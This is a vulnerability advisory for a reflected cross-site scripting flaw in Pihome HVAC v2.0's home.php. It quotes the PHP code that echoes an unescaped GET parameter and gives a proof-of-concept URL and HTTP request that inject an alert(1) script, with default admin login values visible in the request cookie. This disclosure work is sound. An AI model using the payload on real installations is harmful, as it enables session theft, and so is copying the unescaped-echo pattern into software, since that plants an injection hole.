

# Cross Site Scripting in Pihome HVAC v2.0 in home.php

### Title: Cross Site Scripting in Pihome HVAC v2.0 in home.php
### Affected Component: /home.php
### CWE: CWE-79 (Cross Site Scripting)
### CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:N/VI:L/VA:N/SC:N/SI:N/SA:N/E:X/CR:X/IR:X/AR:X/MAV:X/MAC:X/MAT:X/MPR:X/MUI:X/MVC:X/MVI:X/MVA:X/MSC:X/MSI:X/MSA:X/S:X/AU:X/R:X/V:X/RE:X/U:X
### CVE: [CVE-2025-1742](https://www.cve.org/CVERecord?id=CVE-2025-1742)
### VulDB: [VDB-297830](https://vuldb.com/?id.297830)


### Vendor homepage:
[https://github.com/pihome-shc/pihome](https://github.com/pihome-shc/PiHomeHVAC)


### Setup for getting the PoC to Work
Setup the project and then visit the following url `<url>/home.php?page_name=onetouchfq8nd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eechcc`


### Impact:
The web application is vulnerable to XSS attacks within the home.php. Attackers can exploit this vulnerability by injecting malicious payload in the url and steal cookies if the cookie flags are not set properly. 


The code below shows (home.php from line 26) that the user input is put into the html source without sanitation. This is a high risk vulnerability.

```php
	if(isset($_GET['page_name'])) {
        $page_name = $_GET['page_name'];
} else {
        $page_name = "homelist";
}

include("header.php");

echo '<div class="container-fluid">
	<br>
	<input type="hidden" id="page_link" value="'.$page_name.'">
```

The developer should escape all input properly. This is a repository wide issue.


### Proof of Concept (POC):
To exploit the XSS vulnerability, attackers craft a payload containing malicious input and inject it into the url. For example, 
submitting the payload `<url>/home.php?page_name=onetouchfq8nd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eechcc` triggers the alert box. This demonstrates the successful execution of the injection within the application.

#### HTTP Request:
```
GET /home.php?page_name=onetouchfq8nd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eechcc HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=a0f1f07c9cbe1f29023c0803056ddc07; user_login=admin; pass_login=pihome; maxair_login=a0f1f07c9cbe1f29023c0803056ddc07; PiHomeLanguage=en
Upgrade-Insecure-Requests: 1
Referer: http://127.0.0.1:8888/home.php
Sec-CH-UA: "Google Chrome";v="133", "Not=A?Brand";v="8", "Chromium";v="133"
Sec-CH-UA-Platform: "Linux"
Sec-CH-UA-Mobile: ?0
Content-Length: 0


```

### Proof with Screenshot:



## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)